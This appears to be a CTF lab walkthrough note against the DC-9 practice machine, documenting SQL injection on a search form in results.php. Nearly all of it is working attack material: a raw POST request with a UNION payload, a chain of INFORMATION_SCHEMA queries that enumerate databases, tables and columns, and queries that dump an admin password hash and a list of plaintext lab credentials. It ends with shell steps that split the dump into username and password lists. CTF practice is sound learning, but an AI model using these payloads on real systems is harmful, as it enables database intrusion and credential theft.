 # SQL Injection
is possible on results.php

give results
search=test'or 1=1--'

give no results
search=test'or 1=2--'

payload with output

```plaintext
POST /results.php HTTP/1.1
Host: 192.168.178.55
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 53
Origin: http://192.168.178.55
Connection: close
Referer: http://192.168.178.55/search.php
Cookie: PHPSESSID=oum89dlvs33n6cq2jvr3utri4q
Upgrade-Insecure-Requests: 1

search=test' UNION ALL SELECT 1,2,3,4,@@Version,6-- -

```

Output
```
ID: 1<br/>Name: 2 3<br/>Position: 4<br />Phone No: 10.3.17-MariaDB-0+deb10u1<br />Email: 6<br/>
```

## Databases

Found databases

```
search=test' UNION select 1,schema_name,3,4,5,6 from INFORMATION_SCHEMA.SCHEMATA-- -
```

![[Pasted image 20210503192825.png]]

## Tables

Tables in user
```
search=test' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4,5,6 from INFORMATION_SCHEMA.TABLES where table_schema='users'-- -
```

![[Pasted image 20210503192956.png]]

Tables in staff
```
search=test' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4,5,6 from INFORMATION_SCHEMA.TABLES where table_schema='Staff'-- -
```

![[Pasted image 20210503193054.png]]


### Columns
Columns in StaffDetails

```
search=test' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA,5,6 from INFORMATION_SCHEMA.COLUMNS where table_name='StaffDetails'-- -
```

![[Pasted image 20210503193234.png]]

Columns in UsersTable Staff

```
search=test' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA,5,6 from INFORMATION_SCHEMA.COLUMNS where table_name='Users'-- -
```
![[Pasted image 20210503193359.png]]

Columns in Users Database Table users

```
search=test' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA,5,6 from INFORMATION_SCHEMA.COLUMNS where table_schema='users' -- -
```
![[Pasted image 20210503193824.png]]

## Get User

```search=test' UNION SELECT 1,user(),3,4,5,6-- -```

![[Pasted image 20210503194052.png]]


```search=test' UNION select 1, Username, Password, 4,5,6 from Users-- -```

Name: admin 856f5de590ef37314e7c3bdf6f8a66dc
![[Pasted image 20210503194628.png]]

crack the password online

![[Pasted image 20210503195407.png]]



### get other users

```search=test' UNION select 1, username, password, 4,5,6 from users.UserDetails-- -```

```html
				ID: 1<br/>Name: marym 3kfs86sfd<br/>Position: 4<br />Phone No: 5<br />Email: 6<br/><br/>ID: 1<br/>Name: julied 468sfdfsd2<br/>Position: 4<br />Phone No: 5<br />Email: 6<br/><br/>ID: 1<br/>Name: fredf 4sfd87sfd1<br/>Position: 4<br />Phone No: 5<br />Email: 6<br/><br/>ID: 1<br/>Name: barneyr RocksOff<br/>Position: 4<br />Phone No: 5<br />Email: 6<br/><br/>ID: 1<br/>Name: tomc TC&TheBoyz<br/>Position: 4<br />Phone No: 5<br />Email: 6<br/><br/>ID: 1<br/>Name: jerrym B8m#48sd<br/>Position: 4<br />Phone No: 5<br />Email: 6<br/><br/>ID: 1<br/>Name: wilmaf Pebbles<br/>Position: 4<br />Phone No: 5<br />Email: 6<br/><br/>ID: 1<br/>Name: bettyr BamBam01<br/>Position: 4<br />Phone No: 5<br />Email: 6<br/><br/>ID: 1<br/>Name: chandlerb UrAG0D!<br/>Position: 4<br />Phone No: 5<br />Email: 6<br/><br/>ID: 1<br/>Name: joeyt Passw0rd<br/>Position: 4<br />Phone No: 5<br />Email: 6<br/><br/>ID: 1<br/>Name: rachelg yN72#dsd<br/>Position: 4<br />Phone No: 5<br />Email: 6<br/><br/>ID: 1<br/>Name: rossg ILoveRachel<br/>Position: 4<br />Phone No: 5<br />Email: 6<br/><br/>ID: 1<br/>Name: monicag 3248dsds7s<br/>Position: 4<br />Phone No: 5<br />Email: 6<br/><br/>ID: 1<br/>Name: phoebeb smellycats<br/>Position: 4<br />Phone No: 5<br />Email: 6<br/><br/>ID: 1<br/>Name: scoots YR3BVxxxw87<br/>Position: 4<br />Phone No: 5<br />Email: 6<br/><br/>ID: 1<br/>Name: janitor Ilovepeepee<br/>Position: 4<br />Phone No: 5<br />Email: 6<br/><br/>ID: 1<br/>Name: janitor2 Hawaii-Five-0<br/>Position: 4<br />Phone No: 5<br />Email: 6<br/>



```

## optimise user database output from html

Vim replacements
```bash
:%s/<br\/><br\/>/\r/g
:%s/ID: 1<br\/>Name: //g
:%s/:<br\/>Position: //g
:%s/<br\/ >Phone No: 5<br \/>Email: 6//g
:%s/ : /:/g
```


## seperate user from pass

```bash
──(kalium㉿kali)-[~/dc9]
└─$ cat userPass.txt| awk -F ':' '{print $1}' > user.txt

┌──(kalium㉿kali)-[~/dc9]
└─$ cat userPass.txt| awk -F ':' '{print $2}' > pass.txt
```

![[Pasted image 20210505183952.png]]